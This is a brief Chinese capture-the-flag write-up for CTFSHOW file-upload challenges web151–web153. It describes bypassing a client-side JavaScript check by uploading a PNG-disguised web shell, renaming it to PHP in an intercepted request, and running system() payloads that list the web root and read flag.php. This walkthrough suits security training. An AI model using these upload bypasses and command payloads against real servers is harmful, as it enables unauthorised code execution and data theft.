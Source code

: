 # CTFSHOW 文件上传

## web151  JS前端绕过



<img src="https://i-blog.csdnimg.cn/blog_migrate/a7effd01fd30e1dbb4df6180c06ae379.png" alt="" style="max-height:184px; box-sizing:content-box;" />


直接上传 png的图片马

然后抓包修改为php

```perl
a=system("ls /var/www/html");
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fed96f44bdf425b8b314dc02933a7f36.png" alt="" style="max-height:138px; box-sizing:content-box;" />




```perl
a=system("cat /var/www/html/flag.php");
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b2ac0057d3dab0c73cc6e93fa61d8f32.png" alt="" style="max-height:54px; box-sizing:content-box;" />


## web152

和151一样的方法也可以实现上传



<img src="https://i-blog.csdnimg.cn/blog_migrate/c45aa8385e631a8f6f8bac77ad2cf2e8.png" alt="" style="max-height:113px; box-sizing:content-box;" />


```perl
a=system("ls /var/www/html");
a=system("cat /var/www/html/flag.php");
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/242c0ad9a02c81125abd547283a23890.png" alt="" style="max-height:70px; box-sizing:content-box;" />


## web153   .user.ini





<img src="https://i-blog.csdnimg.cn/blog_migrate/d266152fee10189fe010df319ddd3aa0.png" alt="" style="max-height:201px; box-sizing:content-box;" />
